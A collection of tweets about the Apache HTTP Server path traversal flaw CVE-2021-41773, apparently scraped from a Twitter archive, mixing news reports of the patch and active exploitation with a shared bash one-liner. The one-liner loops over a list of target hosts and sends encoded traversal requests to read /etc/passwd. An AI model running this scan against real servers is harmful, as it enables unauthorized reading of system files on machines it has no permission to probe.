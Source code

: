 ✅ One Liner :

cat targets.txt | while read host do ; do curl --silent --path-as-is --insecure "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd" | grep "root:*" &amp;&amp; echo "$host \033[0;31mVulnerable\n" || echo "$host \033[0;32mNot Vulnerable\n";done
</blockquote>


<table><tr>
<td>Quotes: <code>16</code></td>
<td>Replies: <code>12</code></td>
<td>Retweets: <code>421</code></td>
<td>Favorites: <code>1037</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1445405839041437699 _at 2021-10-05 15:09:41_**
<blockquote>
Apache has issued urgent security patches to address 2 new security vulnerabilities—including a zero-day path traversal and file disclosure flaw (CVE-2021-41773) in HTTP servers that it said is being actively exploited in the wild.

Details: https://t.co/B3wC46pZol

#infosec #
</blockquote>

* https://thehackernews.com/2021/10/apache-warns-of-zero-day-exploit-in.html

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>140</code></td>
<td>Favorites: <code>176</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1445401617407295495 _at 2021-10-05 14:52:54_**
<blockquote>
NEW: Apache fixes actively exploited web server zero-day

-Tracked as CVE-2021-41773
-Issue resides in Apache's path normalization logic
-Several PoCs already released
-No details on the ongoing exploitation

https://t.co/JV9nKlgXLl https://t.co/JB0WLNvZf9
</blockquote>

* https://therecord.media/apache-fixes-actively-exploited-web-server-zero-day/
